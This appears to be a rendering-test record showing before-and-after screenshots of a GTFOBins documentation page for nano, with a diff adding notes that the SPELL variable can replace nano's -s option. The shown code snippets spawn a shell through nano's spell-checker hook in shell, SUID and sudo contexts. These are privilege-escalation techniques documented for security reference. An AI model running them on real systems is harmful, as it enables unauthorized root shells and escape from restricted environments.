

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Mention the SPELL environment variable in nano

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -1,7 +1,8 @@
 ---
 functions:
   shell:
-    - code: |
+    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
+      code: |
         TF=$(mktemp)
         echo 'exec sh' > $TF
         chmod +x $TF
@@ -15,14 +16,16 @@ functions:
   file-read:
     - code: nano file_to_read
   suid:
-    - code: |
+    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
+      code: |
         TF=$(mktemp)
         echo 'exec sh -p' > $TF
         chmod +x $TF
         ./nano -s $TF /etc/hosts
         ^T
   sudo:
-    - code: |
+    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
+      code: |
         TF=$(mktemp)
         echo 'exec sh' > $TF
         chmod +x $TF
```
